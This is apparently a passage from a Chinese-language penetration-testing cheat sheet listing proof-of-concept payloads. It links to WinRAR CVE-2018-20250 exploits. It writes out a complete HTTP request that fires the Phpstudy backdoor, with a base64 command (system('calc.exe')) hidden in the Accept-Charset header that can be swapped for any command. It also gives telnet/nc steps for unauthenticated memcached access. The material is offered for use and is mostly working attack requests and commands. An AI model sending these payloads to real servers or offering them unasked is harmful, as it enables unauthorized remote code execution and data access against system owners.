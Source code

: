 - POC | Payload | exp
    - [WyAtu/CVE-2018-20250](https://github.com/WyAtu/CVE-2018-20250)
    - [Ridter/acefile](https://github.com/Ridter/acefile)

**WinRAR 5.80 XML 注入漏洞和拒绝服务攻击漏洞**
- POC | Payload | exp
    - https://mrxn.net/Infiltration/641.html

### Phpstudy
**Phpstudy 后门RCE**
- POC | Payload | exp
    ```
    GET /1.php HTTP/1.1
    Host: example.com
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding:gzip,deflate
    Accept-Charset:这里就是要执行的命令base64加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
    Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
    Connection: close
    ```

---

# 数据库
## memcached
**未授权访问漏洞**
- POC | Payload | exp

    `telnet <ip> 11211`

    `nc -vv <ip> 11211`

    ```bash
    set aaa 0 10 9  # 存个 aaa 值
    memcached

    get aaa # 读这个值
    ```

---

## MS SQL Server
**文章**
- [从攻击MS SQL Server到获得系统访问权限](https://www.freebuf.com/articles/database/22997.html)
